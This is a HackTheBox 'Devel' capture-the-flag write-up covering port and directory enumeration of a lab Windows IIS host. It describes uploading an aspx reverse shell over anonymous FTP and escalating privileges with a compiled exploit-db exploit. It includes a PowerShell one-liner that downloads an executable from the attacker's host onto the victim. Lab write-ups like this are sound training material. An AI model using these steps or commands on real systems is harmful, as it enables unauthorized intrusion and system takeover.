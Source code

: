 ```yaml
---
layout: post
title:  "HackTheBox - Devel"
date:   2021-07-31 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Running gobuster scan:

```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ gobuster dir -u http://10.10.10.5/  -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 00:51:54 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 155] [--> http://10.10.10.5/aspnet_client/]
```
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ gobuster dir -u http://10.10.10.5/aspnet_client  -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/aspnet_client
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 00:44:27 Starting gobuster in directory enumeration mode
===============================================================
/system_web           (Status: 301) [Size: 166] [--> http://10.10.10.5/aspnet_client/system_web/]
```
# FOOTHOLD

We can access FTP via anonymous login but there doesn't seem to be anything interesting. However googling about aspnet_client file upload says that scripts can be uploaded in the directory containing aspnet_client directory for validation controls. Also since ASP.NET is enabled we have to upload a .asp/.aspx reverse shell for Windows only.

[aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

Browsing to http://10.10.10.5/reverse.aspx while simultaneously listening via netcat in my terminal gives me a reverse shell.

# PRIVILEGE ESCALATION

So basically , I tried searching for exploits in this list:

[windows privesc](https://www.fuzzysecurity.com/tutorials/16.html)

Searching for the OS build structure shows us an exploitdb script in C language.

[link to script](https://www.exploit-db.com/exploits/40564)

In order to run the file on our windows I made an executable file from the .c file and put it in the same place where we uploaded our reverse shell ( probably should work ).

Here's how to make a windows executable file:

[StackOverFlow link](https://stackoverflow.com/questions/38786014/how-to-compile-executable-for-windows-with-gcc-with-linux-subsystem)

Ugh but it shows up a lot of errors about some undefined reference but googling it tells us we need to add an extra tag (anyone who read the exploit would know about the tag but I didn't read so yea , **TIP OF THE DAY: READ THE EXPLOIT BEFORE EXECUTING**):

```
-lws2_32
```

And this time it compiles without errors.
HOWEVER, it does **NOT** execute. Stubborn Windows throws up some weird error:
```
c:\inetpub\wwwroot>40564.exe
40564.exe
This program cannot be run in DOS mode.
```
Searching for other ways to transfer the file and many frustrated minutes I find out you can transfer files via PowerShell.
Start a python web server in the directory where the file to be transferred is and execute it in the victim windows machine:

```s
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:3000/40564.exe', 'c:\inetpub\wwwroot\40564.exe')"
```
After this i executed the file and ***very fortunately*** finally got root. 
User flag is in c:\Users\babis\Desktop
Root flag is in c:\Users\Administrator\Desktop
